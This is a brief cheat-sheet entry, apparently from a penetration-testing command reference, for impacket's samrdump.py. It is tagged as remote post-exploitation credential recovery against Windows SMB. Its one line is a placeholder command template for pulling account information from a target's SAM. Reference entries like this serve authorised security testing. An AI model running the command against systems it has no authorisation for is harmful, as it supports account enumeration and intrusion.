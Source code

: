 # samrdump (imp)

% impacket-secrets, windows, smb, 445

## dump info from the SAM
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
samrdump.py '<domain>/<user>:<password>'@<ip>
```